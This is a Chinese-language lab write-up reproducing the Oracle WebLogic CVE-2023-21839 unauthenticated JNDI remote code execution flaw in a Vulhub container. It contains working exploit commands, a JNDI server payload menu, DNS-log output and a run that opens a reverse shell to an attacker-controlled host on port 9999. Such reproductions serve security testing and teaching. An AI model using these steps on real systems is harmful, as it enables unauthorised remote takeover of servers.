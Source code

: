 # Weblogic未授权远程代码执行漏洞 CVE-2023-21839

## 漏洞描述

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞。

参考链接:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 影响版本

```
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

Vulhub执行以下命令启动 Weblogic server 12.2.1.3

```
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面

![image-20230228142512212](images/image-20230228142512212.png)

## 漏洞复现

Weblogic CVE-2023-21839 RCE Exploit：https://github.com/4ra1n/CVE-2023-21839

需要使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server，此处使用 ：

- JNDIExploit：https://github.com/WhiteHSBG/JNDIExploit
- **java version：1.8.0_361**

如果发现 panic 或有其他报错，说明目标不存在漏洞（或关闭了 IIOP 功能）。

Linux/Mac OS：

```
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows：

```
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

在Windows上的DNS Log：

```
C:\Threekiii> CVE-2023-21839.exe -ip <your-vps-ip> -port 7001 -ldap ldap://9xqmx0.dnslog.cn
[*] your-ip: <your-vps-ip>
[*] your-port: 7001
[*] your-ldap: ldap://9xqmx0.dnslog.cn
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![image-20230228145744308](images/image-20230228145744308.png)

Windows上测试反弹Shell不成功，转到Linux系统执行。

启动JNDI服务器：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i <your-vps-ip>

------------
[+] Basic Queries: ldap://<your-vps-ip>:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://<your-vps-ip>:1389/Basic/Dnslog/[domain]
    ldap://<your-vps-ip>:1389/Basic/Command/id
    ldap://<your-vps-ip>:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999  ---windows NOT supported
    ...
```

执行Exploit：

```
./CVE-2023-21839 -ip <your-vps-ip> -port 7001 -ldap ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999
```

监听9999端口，成功接收反弹Shell：

![image-20230228154614995](images/image-20230228154614995.png)
